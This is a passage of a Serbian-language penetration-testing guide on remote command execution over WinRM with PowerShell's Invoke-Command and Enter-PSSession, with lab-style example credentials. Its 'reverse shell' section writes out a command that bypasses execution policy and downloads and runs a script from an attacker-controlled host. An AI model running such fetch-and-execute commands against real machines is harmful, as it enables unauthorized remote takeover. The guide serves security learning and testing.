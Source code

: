 ![](<../images/image (582).png>)

- Nasuprot tome, za cilj koji **nije** konfigurisan za WinRM, to bi rezultiralo nedostatkom takvih detaljnih informacija, ističući odsustvo pravilnog WinRM podešavanja.

![](<../images/image (458).png>)

### Izvrši komandu

Da biste izvršili `ipconfig` daljinski na ciljnim mašini i videli njegov izlaz, uradite:
```bash
Invoke-Command -computername computer-name.domain.tld -ScriptBlock {ipconfig /all} [-credential DOMAIN\username]
```
![](<../images/image (151).png>)

Možete takođe **izvršiti komandu iz vaše trenutne PS konzole putem** _**Invoke-Command**_. Pretpostavimo da imate lokalno funkciju pod nazivom _**enumeration**_ i želite da je **izvršite na udaljenom računaru**, možete to uraditi:
```bash
Invoke-Command -ComputerName <computername> -ScriptBLock ${function:enumeration} [-ArgumentList "arguments"]
```
### Izvrši skriptu
```bash
Invoke-Command -ComputerName <computername> -FilePath C:\path\to\script\file [-credential CSCOU\jarrieta]
```
### Dobijanje reverzne ljuske
```bash
Invoke-Command -ComputerName <computername> -ScriptBlock {cmd /c "powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.10.10:8080/ipst.ps1')"}
```
### Dobijanje PS sesije

Da biste dobili interaktivnu PowerShell ljusku, koristite `Enter-PSSession`:
```bash
#If you need to use different creds
$password=ConvertTo-SecureString 'Stud41Password@123' -Asplaintext -force
## Note the ".\" in the suername to indicate it's a local user (host domain)
$creds2=New-Object System.Management.Automation.PSCredential(".\student41", $password)

# Enter
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local [-Credential username]
## Bypass proxy
Enter-PSSession -ComputerName 1.1.1.1 -Credential $creds -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)
# Save session in var
$sess = New-PSSession -ComputerName 1.1.1.1 -Credential $creds -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)
Enter-PSSession $sess
## Background current PS session
Exit-PSSession # This will leave it in background if it's inside an env var (New-PSSession...)
```
![](<../images/image (1009).png>)
